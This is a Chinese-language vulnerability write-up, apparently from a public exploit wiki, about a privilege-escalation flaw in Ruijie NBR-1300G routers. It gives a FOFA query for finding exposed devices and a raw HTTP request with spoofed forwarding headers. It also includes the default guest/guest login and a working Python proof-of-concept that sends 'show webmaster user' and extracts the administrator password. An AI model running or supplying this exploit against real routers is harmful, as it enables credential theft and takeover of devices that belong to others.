# 锐捷NBR-1300G路由器-越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR-1300G路由器-越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

> [!NOTE]
>
> 锐捷NBR路由器

## FOFA

> [!NOTE]
>
> title="锐捷网络 --NBR路由器--登录界面"

## 漏洞复现

登录页面如下

![](锐捷NBR-1300G路由器-越权CLI命令执行漏洞.assets/1627363599476543.jpg)

查看流量发现 CLI命令流量

![](锐捷NBR-1300G路由器-越权CLI命令执行漏洞.assets/16273635998931782.jpg)

请求包为

```
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）

登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码

![](锐捷NBR-1300G路由器-越权CLI命令执行漏洞.assets/1627363600184511.jpg)

成功获取所有用户的账号密码

```
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷NBRNBR1300G 路由器 越权CLI命令执行漏洞                    \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/WEB_VMS/LEVEL15/"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = 'command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "webmaster" in response.text and " password" in response.text and response.status_code == 200:
            user_data = re.findall(r'webmaster level 0 username admin password (.*?)<OPTION>', response.text)[0]
            print("\033[36m[o] 成功获取, 管理员用户账号密码为: admin/{} \033[0m".format(user_data))
        else:
            print("\033[31m[x] 请求失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](锐捷NBR-1300G路由器-越权CLI命令执行漏洞.assets/1627363600512813.jpg)
